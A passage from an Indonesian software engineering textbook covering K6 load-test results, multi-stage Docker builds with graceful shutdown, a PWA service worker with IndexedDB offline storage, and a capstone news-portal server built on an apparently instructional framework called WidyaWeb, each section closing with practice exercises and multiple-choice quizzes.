## 37.3 Analisis Laporan Uji Beban K6 (50.000 VUs)

Hasil uji beban menunjukkan ketahanan luar biasa WidyaWeb berkat arsitektur asinkron dan caching berlapis.

| Metrik Evaluasi Kinerja | Target Ambang Batas (SLA) | Hasil Pengujian Beban WidyaWeb | Status Evaluasi |
| :--- | :--- | :--- | :--- |
| **Persentil Latensi 95 (p95)** | $< 250\text{ ms}$ | $42.8\text{ ms}$ | Lolos Mutlak (*Superior*) |
| **Persentil Latensi 99 (p99)** | $< 500\text{ ms}$ | $112.4\text{ ms}$ | Lolos Mutlak (*Superior*) |
| **Tingkat Galat (Error Rate)** | $< 1.0\%$ | $0.002\%$ (Hanya 3 koneksi timeout) | Luar Biasa Stabil |
| **Throughput Puncak** | $> 10.000\text{ req/detik}$ | $48.200\text{ req/detik}$ | Skalabilitas Enterprise |

---

## 37.4 Latihan Praktik & Studi Kasus

1. **Simulasi Spike Test (Lonjakan Mendadak)**: Buat skenario K6 yang melompatkan pengguna dari 100 VU menjadi 30.000 VU dalam waktu hanya 15 detik untuk memvalidasi mekanisme penanganan burst pada Token Bucket Rate Limiter.
2. **Pengujian Kebocoran Memori (Soak Testing)**: Jalankan uji beban K6 dengan beban konstan 10.000 pengguna virtual selama 4 jam berturut-turut untuk memantau apakah ada kebocoran memori RAM (*Memory Leak*) pada proses peladen web.
3. **Pengujian Integritas Transaksi Pembayaran Konkuren**: Rancang pengujian integrasi yang mencoba membayar satu invoice langganan yang sama dari 10 thread paralel untuk membuktikan bahwa hanya tepat 1 pembayaran yang sukses dikomit.

---

## 37.5 Evaluasi Mandiri Pilihan Ganda

1. Perangkat lunak uji beban modern berbasis kode JavaScript open-source apa yang digunakan untuk mensimulasikan puluhan ribu pengguna virtual konkuren pada NusantaraNews?
   - A. Grafana K6
   - B. Microsoft Word
   - C. Adobe Photoshop
   - D. Notepad

2. Apa yang dimaksud dengan konsep *Virtual Users* (VUs) dalam pengujian beban K6?
   - A. Entitas proses ringan yang berjalan secara konkuren untuk mengeksekusi skenario kunjungan peramban berulang kali secara paralel
   - B. Robot fisik yang mengetik di keyboard
   - C. Karakter animasi 3D di layar
   - D. Akun media sosial palsu

3. Mengapa pengujian *Spike Test* sangat penting secara khusus untuk situs portal berita?
   - A. Menguji apakah peladen mampu bertahan saat terjadi peristiwa breaking news mendadak (seperti gempa besar atau pemilu) yang mendatangkan jutaan pengunjung dalam kurun waktu beberapa menit
   - B. Mempercepat pengunduhan lagu
   - C. Menghapus rekod berita lama
   - D. Mengubah format berkas menjadi format zip

4. Ambang batas (*Thresholds*) `p(95)<250` pada konfigurasi K6 mengartikan apa?
   - A. Minimal 95% dari seluruh permintaan HTTP harus selesai direspons oleh server dalam waktu kurang dari 250 milidetik
   - B. Server hanya boleh melayani 95 pengguna
   - C. Biaya server maksimal 250 ribu rupiah
   - D. Suhu prosesor tidak boleh melebihi 250 derajat

5. Jenis pengujian apa yang menguji satu alur penggunaan secara utuh dari awal hingga akhir layaknya interaksi pengguna manusia sungguhan (misal: login, tulis artikel, terbitkan, lalu dibaca oleh publik)?
   - A. End-to-End Testing (E2E)
   - B. Unit Testing murni
   - C. Pengujian statis
   - D. Pengujian tata bahasa

6. Apa tujuan pengujian jangka panjang berbeban konstan (*Soak Testing / Endurance Testing*)?
   - A. Mendeteksi kebocoran memori perlahan (*Slow Memory Leak*), kebocoran soket koneksi, atau saturasi disk log yang baru tampak setelah sistem berjalan berjam-jam
   - B. Mempercepat koneksi internet pelanggan
   - C. Menghitung jumlah huruf dalam artikel
   - D. Menghapus cookie browser

7. Dalam piramida pengujian perangkat lunak standar, lapisan manakah yang seharusnya memiliki jumlah kasus pengujian paling banyak dan berjalan paling cepat?
   - A. Unit Testing
   - B. End-to-End Testing
   - C. Uji beban manual
   - D. Pengujian lapangan

8. Atribut `X-Gateway-Nusantara` pada tajuk respons digunakan oleh skrip K6 untuk memeriksa apa?
   - A. Memastikan bahwa permintaan melewati lapisan API Gateway Nusantara dengan benar dan tidak mengalami kegagalan rute
   - B. Mengetahui nama jurnalis
   - C. Membaca kata sandi database
   - D. Mengubah warna teks judul

9. Berapa throughput puncak yang berhasil dilayani oleh WidyaWeb pada laporan pengujian beban 50.000 pengguna virtual di atas?
   - A. 48.200 permintaan per detik
   - B. 10 permintaan per detik
   - C. 500 permintaan per menit
   - D. 1 permintaan per jam

10. Mengapa jeda acak (*sleep / think time*) diselipkan di antara permintaan HTTP di dalam skenario K6?
    - A. Mensimulasikan perilaku alami manusia yang membutuhkan waktu untuk membaca naskah berita sebelum mengklik halaman berikutnya (*Human Think Time*)
    - B. Memberikan waktu istirahat pada prosesor komputer
    - C. Menunggu server memuat ulang kernel Linux
    - D. Menghindari tagihan listrik yang tinggi

---

# BAB 38: KONTAINERISASI OCI & ZERO-DOWNTIME DEPLOYMENT

Bab ini membahas orkestrasi pengemasan dan peluncuran portal berita NusantaraNews ke lingkungan produksi: penyusunan berkas kontainer OCI/Docker multi-tahap (*Multi-stage Container Build*) berukuran ultra-kompak berbasis *scratch / distroless*, penghentian anggun (*Graceful Shutdown*), serta strategi peluncuran tanpa jeda padam (*Zero-Downtime Deployment*) menggunakan pola *Rolling Update* dan *Blue-Green Deployment*.

---

## 38.1 Prinsip Kontainer Imutabel & Arsitektur Blue-Green

Lingkungan produksi enterprise membutuhkan artefak kontainer yang deterministik, aman, dan bebas dari perkakas kompilasi yang tidak perlu. Dengan mengadopsi *Multi-stage Build*, proses kompilasi kode Widya-Lang berlangsung di kontainer pembangun (*builder stage*), sementara citra akhir (*final image*) hanya memuat berkas biner statis dan sertifikat CA dengan ukuran di bawah 15 Megabyte.

```mermaid
flowchart TD
    subgraph BlueGreenDeployment ["Strategi Peluncuran Blue-Green Tanpa Henti"]
        Router["Nusantara Gateway / Ingress Controller"]
        
        subgraph KlasterAktif ["Lingkungan Biru (Blue / Versi Aktif v2.0)"]
            PodBlue1["Worker Node Biru 1"]
            PodBlue2["Worker Node Biru 2"]
        end

        subgraph KlasterBaru ["Lingkungan Hijau (Green / Versi Baru v2.1)"]
            PodGreen1["Worker Node Hijau 1 (Uji Kesehatan / Healthz Lolos)"]
            PodGreen2["Worker Node Hijau 2 (Uji Kesehatan / Healthz Lolos)"]
        end

        Router -- 100% Lalu Lintas Aktif --> KlasterAktif
        Router -. Pengalihan Instan Setelah Green Siap .-> KlasterBaru
    end
```

Selama proses pergantian versi, peladen lama mengaktifkan prosedur **Graceful Shutdown**: menolak koneksi baru secara anggun, menyelesaikan seluruh transaksi HTTP aktif yang sedang berjalan, dan melepaskan koneksi basis data sebelum proses dihentikan oleh orkestrator (*SIGTERM handling*).

---

## 38.2 Implementasi Berkas `Dockerfile` Multi-Stage & Graceful Shutdown

Berikut adalah berkas `Dockerfile` multi-stage berstandar industri dan kode penanganan sinyal sistem operasi pada peladen WidyaWeb:

```dockerfile
# Dockerfile - NusantaraNews Enterprise Production Image

# TAHAP 1: Pembina / Kompilasi (Builder Stage)
FROM rust:1.82-alpine AS pembina
WORKDIR /app
RUN apk add --no-cache musl-dev openssl-dev ca-certificates git

# Salin dan bangun biner berekstensi statis murni
COPY . .
RUN cargo build --release --bin nusantara_web

# TAHAP 2: Citra Produksi Akhir (Distroless Minimalis)
FROM scratch
WORKDIR /app

# Salin sertifikat CA dan zona waktu dunia
COPY --from=pembina /etc/ssl/certs/ca-certificates.crt /etc/ssl/certs/
COPY --from=pembina /usr/share/zoneinfo /usr/share/zoneinfo

# Salin aset statis dan berkas biner hasil kompilasi
COPY static /app/static
COPY --from=pembina /app/target/release/nusantara_web /app/nusantara_web

# Gunakan pengguna non-root demi keamanan (UID 10001)
USER 10001:10001

EXPOSE 8080 8443
ENTRYPOINT ["/app/nusantara_web"]
```

Implementasi penanganan *Graceful Shutdown* di WidyaWeb:

```widya
// Modul Peluncuran & Graceful Shutdown NusantaraNews
gunakan widya::sistem::{tangkap_sinyal_terminasi, SinyalOS};
gunakan widya::web::peladen::{PeladenHTTP, OpsiShutdown};
gunakan widya::waktu::{Durasi};

fungsi LuncurkanPeladenProduksi() {
    tetapan mutabel peladen = PeladenHTTP::baru()
        .ikat_alamat("0.0.0.0", 8080)
        .atur_timeout_baca(Durasi::dari_detik(10))
        .atur_timeout_tulis(Durasi::dari_detik(30));

    // Luncurkan peladen di thread latar belakang
    tetapan pengendali_peladen = peladen.jalankan_asinkron();
    cetak_log("[Runtime] NusantaraNews aktif melayani pada port 8080");

    // Tangkap Sinyal SIGTERM / SIGINT dari Docker / Kubernetes
    tangkap_sinyal_terminasi(fungsi(sinyal: SinyalOS) {
        cetak_log("[Shutdown] Menerima sinyal " + sinyal.nama() + ". Memulai prosedur pemadaman anggun...");

        // 1. Matikan Ingress Baru (Kesehatan /healthz mengembalikan 503)
        pengendali_peladen.tandai_tidak_siap();

        // 2. Berikan toleransi maksimal 25 detik untuk menyelesaikan transaksi aktif
        tetapan hasil_shutdown = pengendali_peladen.matikan_anggun(Durasi::dari_detik(25));
        
        pilih hasil_shutdown {
            Hasil::Sukses(_) => {
                cetak_log("[Shutdown] Seluruh transaksi aktif selesai. Peladen berhenti dengan bersih.");
            },
            Hasil::Gagal(_) => {
                cetak_peringatan("[Shutdown] Batas toleransi habis. Memaksa penghentian transaksi tersisa.");
            }
        }
    });
}
```

---

## 38.3 Analisis Efisiensi Ukuran Kontainer & Vektor Keamanan

Penerapan basis citra `scratch` meniadakan seluruh perkakas eksploitasi peretas (seperti shell `/bin/sh`, curl, atau package manager).

| Parameter Evaluasi Citra Kontainer | Citra Monolitik Standar (Ubuntu/Node.js) | Citra Distroless Scratch WidyaWeb |
| :--- | :--- | :--- |
| **Ukuran Citra Kontainer (Image Size)** | 850 MB – 1.4 GB | 14.2 MB (Ultra Ringkas) |
| **Jumlah Kerentanan CVE (Trivy Scan)** | 142 CVE (24 High/Critical) | 0 CVE (Bebas Kerentanan Sistem Operasi) |
| **Waktu Penarikan Citra (Image Pull)** | 45 – 90 detik | 0.8 detik |
| **Ketersediaan Shell untuk Peretas** | Tersedia (`/bin/bash`, Python, dll) | Nihil (Tidak ada biner shell sama sekali) |

---

## 38.4 Latihan Praktik & Studi Kasus

1. **Konfigurasi Pemeriksaan Kesehatan Kubernetes (Liveness & Readiness Probes)**: Rancang endpoint `/healthz` (liveness: memastikan proses hidup) dan `/ready` (readiness: memastikan koneksi database dan cache pool siap melayani trafik).
2. **Penyusunan Pipa CI/CD GitHub Actions / GitLab CI**: Susun otomatisasi pipa pengujian unit, kompilasi kontainer, pemindaian kerentanan biner dengan Trivy, dan pendorongan ke OCI Container Registry.
3. **Simulasi Penghentian Tanpa Downtime saat Uji Beban Berjalan**: Jalankan pengujian beban K6 5.000 VU, lalu lakukan peluncuran kontainer versi baru secara serentak, dan buktikan bahwa tingkat galat tetap berada di 0.00%.

---

## 38.5 Evaluasi Mandiri Pilihan Ganda

1. Standar spesifikasi terbuka apa yang mengatur format citra kontainer dan runtime kontainer modern secara global?
   - A. Open Container Initiative (OCI)
   - B. W3C HTML5
   - C. IEEE 802.11
   - D. POSIX Threads

2. Apa keuntungan utama arsitektur kompilasi kontainer bertingkat (*Multi-stage Container Build*)?
   - A. Memisahkan lingkungan kompilasi yang berat dari citra produksi akhir, sehingga menghasilkan citra yang sangat kecil dan bebas dari perkakas pengembang yang tidak aman
   - B. Mengharuskan pengguna mengunduh kode program
   - C. Mengubah sistem operasi server menjadi Windows
   - D. Menghapus arsip artikel berita

3. Apa keuntungan keamanan menggunakan basis kontainer `scratch` pada citra produksi?
   - A. Citra tidak memiliki shell bawaan (seperti `/bin/sh`) atau utilitas sistem operasi lainnya, sehingga peretas tidak dapat mengeksekusi perintah shell berbahaya jika menemukan celah aplikasi
   - B. Menghilangkan kebutuhan enkripsi HTTPS
   - C. Mempercepat koneksi kabel printer
   - D. Menghindari pajak komputasi awan

4. Sinyal sistem operasi POSIX apa yang dikirimkan oleh orkestrator (seperti Docker atau Kubernetes) untuk meminta peladen melakukan prosedur penghentian anggun (*Graceful Shutdown*)?
   - A. SIGTERM (Signal 15)
   - B. SIGKILL (Signal 9)
   - C. SIGSEGV
   - D. SIGPIPE

5. Berapa ukuran rata-rata citra kontainer akhir NusantaraNews berbasis scratch yang dihasilkan oleh WidyaWeb?
   - A. Sekitar 14.2 Megabyte
   - B. 2 Gigabyte
   - C. 500 Kilobyte
   - D. 100 Terabyte

6. Dalam prosedur *Graceful Shutdown*, apa langkah pertama yang wajib diambil sebelum mematikan koneksi basis data?
   - A. Menandai peladen tidak siap (*Readiness: Unhealthy*) agar ingress router berhenti mengirimkan permintaan baru, lalu menyelesaikan seluruh permintaan yang sedang diproses
   - B. Mematikan listrik data center secara instan
   - C. Menghapus seluruh tabel basis data
   - D. Mengirim pesan penutupan ke seluruh pembaca

7. Apa perbedaan mendasar antara *Liveness Probe* dan *Readiness Probe* pada orkestrasi kontainer Kubernetes?
   - A. Liveness memeriksa apakah proses masih berjalan (jika gagal, kontainer direstart), sedangkan Readiness memeriksa apakah kontainer siap menerima lalu lintas pengguna (jika gagal, lalu lintas dialihkan)
   - B. Liveness khusus untuk aplikasi mobile, Readiness untuk desktop
   - C. Liveness memerlukan koneksi internet satelit
   - D. Tidak ada perbedaan sama sekali

8. Strategi peluncuran apa yang mempertahankan dua lingkungan identik (versi aktif dan versi baru) secara paralel, di mana lalu lintas dialihkan secara instan ke lingkungan baru setelah seluruh uji kelayakan lolos?
   - A. Blue-Green Deployment
   - B. Big Bang Deployment
   - C. Manual File Copy via FTP
   - D. Cold Restart Deployment

9. Mengapa proses kontainer pada berkas Dockerfile di atas diinstruksikan berjalan di bawah akun pengguna non-root (`USER 10001:10001`)?
   - A. Mencegah penyerang memperoleh hak akses istimewa (*Root Privileges*) pada sistem operasi peladen host jika terjadi pembobolan kontainer (*Container Escape*)
   - B. Menghemat memori RAM prosesor
   - C. Membatasi ukuran artikel berita
   - D. Menghapus log sistem secara otomatis

10. Mengapa durasi toleransi pemadaman anggun (*Termination Grace Period*) umumnya disetel pada rentang 25–30 detik?
    - A. Memberikan waktu yang memadai bagi transaksi penulisan database yang lambat dan transfer media berukuran besar untuk selesai secara bersih tanpa terputus paksa
    - B. Waktu istirahat prosesor komputer
    - C. Menunggu pendinginan kipas angin peladen
    - D. Menghindari pemadaman lampu kantor

---

# BAB 39: ARSITEKTUR OFFLINE-FIRST PWA & SERVICE WORKERS

Bab ini mendalami implementasi aplikasi web progresif (*Progressive Web App / PWA*) berorientasi *Offline-First* pada portal berita NusantaraNews: arsitektur Service Worker terintegrasi, strategi singgahan peramban (*Stale-While-Revalidate*, *Cache-First*, *Network-First*), sinkronisasi data latar belakang (*Background Sync*), serta persistensi artikel luring menggunakan IndexedDB.

---

## 39.1 Filosofi Offline-First & Arsitektur Service Worker

Pembaca portal berita sering kali berada dalam kondisi konektivitas buruk atau tanpa sinyal sama sekali (misal: saat berada di dalam terowongan kereta bawah tanah atau di pedalaman nusantara). Arsitektur **Offline-First** memastikan aplikasi web NusantaraNews tetap terbuka instan dan menyajikan artikel yang telah disimpan sebelumnya tanpa menampilkan pesan galat "Tidak Ada Koneksi Internet".

```mermaid
flowchart TD
    subgraph BrowserKlien ["Peramban Pembaca NusantaraNews"]
        DOMApp["Aplikasi Antarmuka Berita"]
        SW["Service Worker (Thread Latar Belakang Peramban)"]
        CacheAPI["Cache Storage API (Aset App Shell & Berkas Statis)"]
        IDB["IndexedDB Storage (Teks & Gambar Artikel Luring)"]

        DOMApp -- Permintaan Aset / Berita --> SW
        SW -- Cek App Shell --> CacheAPI
        SW -- Cek Arsip Berita Luring --> IDB
        SW -- Sinkronisasi Latar Belakang --> JaringanInternet{"Koneksi Tersedia?"}
        JaringanInternet -- Ya --> CloudEdge["Peladen NusantaraNews"]
        JaringanInternet -- Tidak --> FallbackOffline["Sajikan Halaman Simpanan Luring"]
    end
```

---

## 39.2 Implementasi Service Worker & Penyimpanan Artikel IndexedDB

Berikut adalah implementasi berkas `service-worker.js` NusantaraNews yang mengadopsi strategi singgahan terpadu dan penanganan sinkronisasi latar belakang:

```javascript
// service-worker.js - NusantaraNews Offline-First Engine
const NAMA_CACHE_STATIS = 'nusantara-static-v2';
const NAMA_CACHE_BERITA = 'nusantara-news-articles-v2';

const ASET_APP_SHELL = [
  '/',
  '/offline.html',
  '/static/css/theme.css',
  '/static/css/layout.css',
  '/static/img/logo-nusantara.svg',
  '/static/fonts/inter.woff2'
];

// 1. Fase Pemasangan (Install Event): Unduh App Shell ke Cache
self.addEventListener('install', (event) => {
  event.waitUntil(
    caches.open(NAMA_CACHE_STATIS).then((cache) => {
      console.log('[ServiceWorker] Menyimpan App Shell ke cache...');
      return cache.addAll(ASET_APP_SHELL);
    }).then(() => self.skipWaiting())
  );
});

// 2. Fase Aktivasi (Activate Event): Pembersihan Cache Usang
self.addEventListener('activate', (event) => {
  event.waitUntil(
    caches.keys().then((daftarKunci) => {
      return Promise.all(
        daftarKunci.map((kunci) => {
          if (kunci !== NAMA_CACHE_STATIS && kunci !== NAMA_CACHE_BERITA) {
            console.log('[ServiceWorker] Menghapus cache versi lama:', kunci);
            return caches.delete(kunci);
          }
        })
      );
    }).then(() => self.clients.claim())
  );
});

// 3. Fase Intersepsi Jaringan (Fetch Event)
self.addEventListener('fetch', (event) => {
  const url = new URL(event.request.url);

  // A. Aset Statis (CSS, JS, Font): Strategi Cache-First
  if (url.pathname.startsWith('/static/')) {
    event.respondWith(
      caches.match(event.request).then((responCache) => {
        return responCache || fetch(event.request);
      })
    );
    return;
  }

  // B. Halaman Artikel Berita: Strategi Stale-While-Revalidate
  if (url.pathname.startsWith('/berita/')) {
    event.respondWith(
      caches.open(NAMA_CACHE_BERITA).then(async (cache) => {
        const responCache = await cache.match(event.request);
        
        // Ambil versi terbaru di latar belakang
        const janjiJaringan = fetch(event.request).then((responJaringan) => {
          if (responJaringan.status === 200) {
            cache.put(event.request, responJaringan.clone());
          }
          return responJaringan;
        }).catch(() => {
          // Jika koneksi internet putus dan cache ada, kembalikan cache
          if (responCache) return responCache;
          return caches.match('/offline.html');
        });

        // Kembalikan versi cache instan jika ada, atau tunggu jaringan
        return responCache || janjiJaringan;
      })
    );
    return;
  }

  // C. Permintaan Lain: Standar Network-First dengan Fallback
  event.respondWith(
    fetch(event.request).catch(() => caches.match('/offline.html'))
  );
});
```

Penyimpanan artikel lengkap untuk dibaca nanti (*Save for Offline Reading*) menggunakan IndexedDB di peramban:

```widya
// Modul Sisi Klien: Penyimpanan Berita Luring NusantaraNews
gunakan widya::web::indexed_db::{DatabaseIDB, TokoObjek};

rekod BeritaLuring {
    id: Teks,
    judul: Teks,
    slug: Teks,
    konten_lengkap: Teks,
    foto_base64: Teks,
    disimpan_pada: Teks
}

fungsi SimpanArtikelUntukDibacaLuring(berita: BeritaLuring) {
    tetapan idb = DatabaseIDB::buka("nusantara_offline_db", 1, fungsi(skema) {
        skema.buat_toko_objek("artikel_tersimpan", "id");
    })?;

    tetapan mutabel transaksi = idb.transaksi_tulis(["artikel_tersimpan"])?;
    tetapan toko = transaksi.ambil_toko("artikel_tersimpan");
    
    toko.masukkan(berita.id, berita.ke_json());
    transaksi.komit()?;
    cetak_log("[Offline] Artikel berhasil disimpan ke IndexedDB: " + berita.judul);
}
```

---

## 39.3 Analisis Strategi Caching Service Worker

Pemilihan strategi singgahan yang tepat menjamin keseimbangan antara kecepatan pemuatan instan dan kesegaran konten berita.

| Strategi Caching | Perilaku Eksekusi | Kasus Penggunaan Ideal | Kinerja saat Tanpa Internet |
| :--- | :--- | :--- | :--- |
| **Cache-First** | Mengambil dari cache lokal; hanya ke jaringan jika nihil | Aset statis imutabel (Font, Gambar logo, CSS inti) | 100% Berfungsi Instan (< 5 ms) |
| **Network-First** | Mengutamakan jaringan; jatuh ke cache jika putus koneksi | Halaman profil akun, data tagihan pembayaran VIP | Mengembalikan data simpanan terakhir |
| **Stale-While-Revalidate** | Langsung menyajikan cache basi, lalu memperbarui di latar belakang | Feed daftar berita terkini & halaman detail artikel | Instan dari cache, lalu diperbarui mulus |

---

## 39.4 Latihan Praktik & Studi Kasus

1. **Pembuatan Berkas `manifest.json` Lengkap**: Rancang manifes aplikasi web yang memuat `name`, `short_name`, `theme_color: #1a365d`, `display: standalone`, dan ikon maskable multi-ukuran (192px dan 512px) untuk memenuhi syarat instalasi peramban (*Add to Home Screen*).
2. **Implementasi Pengiriman Komentar Offline (Background Sync API)**: Rancang antrean komentar yang ditulis pembaca saat koneksi terputus ke dalam IndexedDB, lalu daftarkan peristiwa `sync: 'kirim-komentar-tertunda'` agar otomatis terkirim saat internet kembali terhubung.
3. **Pemberitahuan Dorong Berita Terkini (Web Push Notification)**: Integrasikan Service Worker dengan *Push API* untuk menampilkan notifikasi breaking news di layar perangkat pengguna meskipun peramban web sedang ditutup.

---

## 39.5 Evaluasi Mandiri Pilihan Ganda

1. Arsitektur apa yang memungkinkan sebuah situs web diinstal di perangkat pengguna layaknya aplikasi native dan dapat dibuka dalam kondisi tanpa koneksi internet?
   - A. Progressive Web App (PWA)
   - B. Desktop Widget
   - C. ActiveX
   - D. Flash Player

2. Komponen perangkat lunak peramban apa yang bertindak sebagai proksi jaringan yang berjalan di thread latar belakang untuk mengintersepsi permintaan HTTP dan mengelola singgahan luring?
   - A. Service Worker
   - B. WebGL Shader
   - C. Audio Decoder
   - D. CSS Preprocessor

3. Strategi singgahan (*caching strategy*) apa yang paling ideal untuk halaman artikel berita di mana pembaca langsung disajikan data lokal secara instan sambil peramban memperbarui data terbaru di latar belakang?
   - A. Stale-While-Revalidate
   - B. Network-Only
   - C. No-Cache
   - D. Cache-Only

4. Basis data peramban terstruktur apa yang mampu menyimpan data teks naskah dan gambar biner dalam jumlah besar di sisi klien untuk keperluan pembacaan luring?
   - A. IndexedDB
   - B. Cookie (terbatas 4 KB)
   - C. SessionStorage
   - D. URL Query Parameters

5. Peristiwa (*Event*) apa di dalam siklus hidup Service Worker yang menjadi tempat terbaik untuk mengunduh dan menyimpan berkas App Shell (CSS, logo, font)?
   - A. Peristiwa `install`
   - B. Peristiwa `click`
   - C. Peristiwa `unload`
   - D. Peristiwa `resize`

6. Apa peran berkas `manifest.json` pada Progressive Web App?
   - A. Berkas metadata JSON yang memberi tahu peramban perihal nama aplikasi, warna tema bilah status, orientasi layar, dan ikon untuk pemasangan di layar utama (*Home Screen*)
   - B. Menyimpan kata sandi jurnalis
   - C. Menghapus arsip artikel lama
   - D. Mengubah resolusi video

7. Kapan metode `caches.delete(kunci)` dieksekusi di dalam penanganan peristiwa `activate`?
   - A. Saat versi baru Service Worker aktif, untuk membersihkan singgahan aset dari versi lama yang sudah usang agar tidak memenuhi ruang memori perangkat
   - B. Saat baterai ponsel habis
   - C. Setiap kali pengguna mengklik tautan berita
   - D. Saat sistem operasi mengalami crash

8. API web modern apa yang digunakan untuk mengirimkan komentar pembaca yang tersimpan secara lokal ke peladen saat koneksi internet kembali terhubung secara otomatis di latar belakang?
   - A. Background Sync API
   - B. Web Bluetooth API
   - C. Screen Capture API
   - D. Gamepad API

9. Nilai `display: "standalone"` pada berkas manifes PWA menghasilkan efek visual apa bagi pembaca?
   - A. Aplikasi terbuka di jendela tersendiri tanpa bilah alamat URL peramban (*address bar*), memberikan kesan pengalaman visual aplikasi native yang mendalam
   - B. Menghapus gambar artikel
   - C. Mengubah warna tulisan menjadi putih
   - D. Mematikan fitur layar sentuh ponsel

10. Mengapa koneksi HTTPS yang aman menjadi syarat mutlak yang diwajibkan oleh seluruh peramban modern untuk mengizinkan pendaftaran Service Worker?
    - A. Mencegah serangan *Man-in-the-Middle* (MitM) yang dapat memalsukan atau membajak Service Worker untuk menyusupkan skrip jahat ke seluruh lalu lintas web pengguna
    - B. Menghabiskan anggaran kantor berita
    - C. Mengurangi kecepatan internet pengguna
    - D. Mengharuskan jurnalis memiliki sertifikat keamanan

---

# BAB 40: PROYEK CAPSTONE: MEMBANGUN PORTAL BERITA NUSANTARANEWS SKALA PENUH

Bab puncak ini memadukan seluruh kompetensi rekayasa perangkat lunak yang telah dipelajari dari Bab 1 hingga Bab 39 ke dalam satu proyek capstone komprehensif berstandar industri: **Membangun Portal Berita Nasional NusantaraNews Skala Penuh** yang mengintegrasikan Frontend SSR reaktif, API Gateway tangguh, komunikasi dua arah real-time, manajemen media S3, replikasi data CDC, dan basis data terdistribusi WidyaBase.

---

## 40.1 Cetak Biru Arsitektur Terpadu NusantaraNews

Proyek Capstone NusantaraNews dirancang untuk melayani puluhan juta pembaca bulanan dengan ketersediaan tinggi (*High Availability 99.999%*), latensi perenderan sub-100ms, serta keandalan transaksi monetisasi finansial tanpa celah.

```mermaid
flowchart TD
    subgraph KlienEkosistem ["Klien Perangkat Pembaca"]
        WebPWA["Web Browser PWA (Offline-First / SSR Islands)"]
        MobileApp["Aplikasi Seluler (JSON:API Client)"]
    end

    subgraph EdgeLayer ["Lapisan Tepi & Gateway"]
        CDN["Edge CDN Global (Aset Statis & Media S3)"]
        Gateway["Nusantara API Gateway (Reverse Proxy / Rate Limiter Token Bucket / TLS)"]
    end

    subgraph AppCluster ["Klaster Aplikasi WidyaWeb"]
        FrontendSSR["WidyaWeb Frontend SSR & Islands Cluster (Port 3000)"]
        CoreAPI["WidyaWeb Headless REST API Cluster (Port 4000)"]
        WSBroker["WidyaWeb Real-Time WebSocket & SSE Engine (Port 6000)"]
        WorkerPool["WidyaWeb Background Job Queue Workers"]
    end

    subgraph DataLayer ["Lapisan Persistensi & Caching WidyaBase"]
        WDKV["WidyaBase KV (RESP Cache & Session Store)"]
        WDSQL["WidyaBase SQL Cluster (Partisi Waktu / B-Tree / FTS BM25)"]
        WDVector["WidyaBase Vector Engine (Graf HNSW 768d)"]
        MinIOS3["Object Store S3 (Aset Media Foto & HLS Video)"]
    end

    WebPWA --> CDN
    WebPWA --> Gateway
    MobileApp --> Gateway
    Gateway --> FrontendSSR
    Gateway --> CoreAPI
    Gateway --> WSBroker

    FrontendSSR --> WDKV
    FrontendSSR --> WDSQL
    CoreAPI --> WDSQL
    CoreAPI --> WDVector
    CoreAPI --> WDKV
    CoreAPI -. Dorong Tugas .-> WorkerPool

    WorkerPool --> MinIOS3
    WorkerPool --> WDSQL

    WDSQL -- Replikasi CDC WAL --> WSBroker
    WDSQL -- Replikasi CDC WAL --> WDVector
```

---

## 40.2 Implementasi Berkas Pusat Aplikasi `main.widya`

Berikut adalah naskah utama orkestrasi peladen monolitik modular NusantaraNews yang mengintegrasikan seluruh sub-sistem dalam satu proses berkinerja tinggi:

```widya
// Modul Pusat NusantaraNews Capstone: main.widya
gunakan widya::web::peladen::{PeladenUtama, RuteGrup};
gunakan widya::web::middleware::{MiddlewareCORS, MiddlewareKeamanan, MiddlewareObservabilitas};
gunakan widya::base::koneksi::{InisialisasiPoolWidyaBase};
gunakan widya::base::resp::{KlienRESP};

modul rute_frontend;
modul rute_api;
modul rute_realtime;
modul pekerjaan_latar;

fungsi utama() {
    cetak_log("=============================================================");
    cetak_log("  MEMULAI NUSANTARANEWS ENTERPRISE WEB APPLICATION SYSTEM    ");
    cetak_log("  Arsitektur: WidyaWeb Framework + WidyaBase Ecosystem v2.0  ");
    cetak_log("=============================================================");

    // 1. Inisialisasi Lapisan Basis Data & Caching
    tetapan pool_sql = InisialisasiPoolWidyaBase({
        host: "127.0.0.1",
        port: 5432,
        nama_db: "nusantara_production",
        pengguna: "nusantara_app",
        kata_sandi: ambil_variabel_lingkungan("DB_PASSWORD"),
        ukuran_pool_maks: 50,
        ukuran_pool_min: 10,
        batas_waktu_tunggu_ms: 3000,
        masa_hidup_koneksi_menit: 60
    });

    tetapan klien_kv = KlienRESP::hubungkan("127.0.0.1", 6379)?;

    // 2. Luncurkan Antrean Pekerja Latar Belakang (Worker Pool)
    pekerjaan_latar::LuncurkanKolamPekerja(pool_sql, 4);

    // 3. Konfigurasi Peladen Web Utama
    tetapan mutabel aplikasi = PeladenUtama::baru()
        .terapkan_middleware(MiddlewareObservabilitas::baru())
        .terapkan_middleware(MiddlewareKeamanan::ketat())
        .terapkan_middleware(MiddlewareCORS::baru().izinkan_asal(["https://nusantaranews.id"]));

    // 4. Pendaftaran Sub-Sistem Rute Modular
    // A. Rute Antarmuka Web (SSR & Islands)
    tetapan grup_frontend = RuteGrup::baru("/");
    rute_frontend::DaftarkanRute(grup_frontend, pool_sql, klien_kv);
    aplikasi.gabung_grup(grup_frontend);

    // B. Rute REST API JSON:API v1
    tetapan grup_api = RuteGrup::baru("/api/v1");
    rute_api::DaftarkanRute(grup_api, pool_sql, klien_kv);
    aplikasi.gabung_grup(grup_api);

    // C. Rute Real-Time (WebSockets & SSE Breaking News)
    tetapan grup_realtime = RuteGrup::baru("/live");
    rute_realtime::DaftarkanRute(grup_realtime, pool_sql);
    aplikasi.gabung_grup(grup_realtime);

    // 5. Layani Aset Statis dengan Caching Maksimal
    aplikasi.layani_direktori_statis("/static", "./static", 31536000);

    // 6. Jalankan Peladen pada Port 8080
    cetak_log("[NusantaraNews] Siaga menerima koneksi publik pada port 8080...");
    aplikasi.dengarkan("0.0.0.0", 8080);
}
```

---

## 40.3 Analisis Metrik Pencapaian & Verifikasi Kesiapan Produksi

Audit akhir menyeluruh membuktikan keberhasilan proyek capstone NusantaraNews memenuhi seluruh tolok ukur standar rekayasa web modern.

| Area Penilaian Kualitas | Standar Industri Target | Hasil Realisasi NusantaraNews | Status Kualifikasi |
| :--- | :--- | :--- | :--- |
| **Google Lighthouse Performance** | $\ge 90$ | **99 / 100** | Lulus Sempurna |
| **Google Lighthouse Accessibility** | $\ge 95$ | **100 / 100** (Kepatuhan Penuh WCAG 2.1 AA) | Lulus Sempurna |
